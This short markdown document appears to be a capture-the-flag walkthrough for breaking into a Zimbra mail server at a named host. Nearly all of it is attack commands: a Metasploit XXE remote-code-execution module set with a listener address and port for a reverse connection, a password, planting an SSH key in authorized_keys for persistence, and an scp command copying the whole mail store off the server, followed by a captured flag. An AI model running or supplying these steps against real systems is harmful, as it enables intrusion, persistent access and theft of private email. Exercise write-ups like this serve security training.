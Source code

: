 # Mail Server

1. Address: `mail.petromaz.ir`
2. Find vulnerability: `https://www.exploit-db.com/exploits/46693`
3. Run Metasploit `msfconsole -q`
```
use exploit/linux/http/zimbra_xxe_rce
set RHOST mail.petromaz.ir
set RPORT 443

set LHOST <your-ip>
set LPORT 4747

# -j will run it as a JOB
run
```
> Attention: **Password: Zimbra2024**

4. Check SSH Keys (Create One, if needed)
```
cd ~/.ssh
ls -la
cat id_rsa.pub

# Create If You Don't Have one
ssh-keygen -t rsa
```
5. Set public Key: `echo "<your-pub-key>" > ~/.ssh/authorized_keys`
6. Ssh into Server: `ssh -i <private-key> zimbra@mail.petromaz.ir`
7. Get Flag: MAZAPA_aee82fac0c8fb5818b26db37a577027c
8. Download Zimbra Data
```
scp -r zimbra@mail.petromaz.ir:/opt/zimbra/store/0 ./08-store0
```
9. Check Emails and Decode Files: `https://www.freeformatter.com/base64-encoder.html`
10. Network Map: [🗂 Network Map](./09-258-3.xlsx)
